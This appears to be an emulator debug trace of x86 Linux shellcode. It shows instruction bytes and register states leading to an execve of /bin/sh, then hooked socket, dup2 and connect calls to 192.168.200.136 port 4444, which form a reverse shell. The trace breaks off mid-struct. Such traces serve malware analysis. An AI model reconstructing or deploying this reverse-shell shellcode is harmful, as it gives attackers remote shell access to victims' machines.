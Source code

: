 [emu 0x0xe76630 debug ] esp=0x00416fa6  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] 52                              push edx
[emu 0x0xe76630 debug ] cpu state    eip=0x0041703d
[emu 0x0xe76630 debug ] eax=0x00000000  ecx=0x00416fb2  edx=0x00000000  ebx=0x00416fa6
[emu 0x0xe76630 debug ] esp=0x00416fa2  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] 53                              push ebx
[emu 0x0xe76630 debug ] cpu state    eip=0x0041703e
[emu 0x0xe76630 debug ] eax=0x00000000  ecx=0x00416fb2  edx=0x00000000  ebx=0x00416fa6
[emu 0x0xe76630 debug ] esp=0x00416f9e  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] 89E1                            mov ecx,esp
[emu 0x0xe76630 debug ] cpu state    eip=0x00417040
[emu 0x0xe76630 debug ] eax=0x00000000  ecx=0x00416f9e  edx=0x00000000  ebx=0x00416fa6
[emu 0x0xe76630 debug ] esp=0x00416f9e  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] B00B                            mov al,0xb
[emu 0x0xe76630 debug ] cpu state    eip=0x00417042
[emu 0x0xe76630 debug ] eax=0x0000000b  ecx=0x00416f9e  edx=0x00000000  ebx=0x00416fa6
[emu 0x0xe76630 debug ] esp=0x00416f9e  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] CD80                            int 0x80
execve
int execve (const char *dateiname=00416fa6={//bin/sh}, const char * argv[], const char *envp[]);
[emu 0x0xe76630 debug ] cpu state    eip=0x00417044
[emu 0x0xe76630 debug ] eax=0x0000000b  ecx=0x00416f9e  edx=0x00000000  ebx=0x00416fa6
[emu 0x0xe76630 debug ] esp=0x00416f9e  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
[emu 0x0xe76630 debug ] 0000                            add [eax],al
cpu error error accessing 0x00000004 not mapped

stepcount 42
[emu 0x0xe76630 debug ] cpu state    eip=0x00417046
[emu 0x0xe76630 debug ] eax=0x0000000b  ecx=0x00416f9e  edx=0x00000000  ebx=0x00416fa6
[emu 0x0xe76630 debug ] esp=0x00416f9e  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0xe76630 debug ] Flags: PF SF 
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 23569 (port=4444);
             struct in_addr sin_addr = {
                 unsigned long s_addr = -2000115520 (host=192.168.200.136);
             };
             char sin_zero = "       ";